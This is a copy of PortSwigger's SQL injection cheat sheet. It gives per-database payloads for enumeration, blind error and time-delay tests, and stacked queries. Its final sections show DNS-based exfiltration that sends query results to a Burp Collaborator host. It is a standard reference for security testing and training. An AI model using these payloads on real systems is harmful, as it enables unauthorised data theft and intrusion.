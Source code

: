 
**[PORTSWIGGER SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)**

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
--------------------

You can concatenate together multiple strings to make a single string.

 Oracle  `'foo'||'bar'` 
 
 Microsoft  `'foo'+'bar'` 
 
 PostgreSQL  `'foo'||'bar'` 
 
 MySQL `'foo' 'bar'` \
`CONCAT('foo','bar')` 

Substring
---------

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

Oracle  `SUBSTR('foobar', 4, 2)` 

Microsoft  `SUBSTRING('foobar', 4, 2)` 

PostgreSQL  `SUBSTRING('foobar', 4, 2)` 

MySQL  `SUBSTRING('foobar', 4, 2)` 

Comments
--------

You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle  `--comment\`

Microsoft  `--comment\
/*comment*/` 

PostgreSQL  `--comment\
/*comment*/` 

MySQL  `#comment`\
`-- comment` \
`/*comment*/` 

Database version
----------------

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle  `SELECT banner FROM v$version\
SELECT version FROM v$instance\` 

Microsoft  `SELECT @@version` 

PostgreSQL  `SELECT version()` 

MySQL  `SELECT @@version` 

Database contents
-----------------

You can list the tables that exist in the database, and the columns that those tables contain.

Oracle  `SELECT * FROM all_tables\
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` 

Microsoft  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

PostgreSQL  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

MySQL  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` 

Conditional errors
------------------

You can test a single boolean condition and trigger a database error if the condition is true.

Oracle  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` 
 
Microsoft  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` 
 
PostgreSQL  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` 

MySQL  `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` 

Batched (or stacked) queries
----------------------------

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle  `Does not support batched queries.` 

Microsoft  `QUERY-1-HERE; QUERY-2-HERE` 

PostgreSQL  `QUERY-1-HERE; QUERY-2-HERE` 

MySQL  `QUERY-1-HERE; QUERY-2-HERE` 

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

Time delays
-----------

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle  `dbms_pipe.receive_message(('a'),10)` 

Microsoft  `WAITFOR DELAY '0:0:10'` 

PostgreSQL  `SELECT pg_sleep(10)` 

MySQL  `SELECT sleep(10)` 

Conditional time delays
-----------------------

You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` 

Microsoft  `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` 

PostgreSQL  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` 

MySQL  `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')` 

DNS lookup
----------

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle  The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:\
`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

The following technique works on fully patched Oracle installations, but requires elevated privileges:\
`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |

Microsoft  `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` 

PostgreSQL  `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` 

MySQL  The following techniques work on Windows only:\
`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`\
`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` 

DNS lookup with data exfiltration
---------------------------------

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle  `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` 

Microsoft  `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` 

PostgreSQL  `create OR replace function f() returns void as $$\
declare c text;\
declare p text;\
begin\
SELECT into p (SELECT YOUR-QUERY-HERE);\
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';\
execute c;\
END;\
$$ language plpgsql security definer;\
SELECT f();` 

MySQL  The following technique works on Windows only:\
`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` 


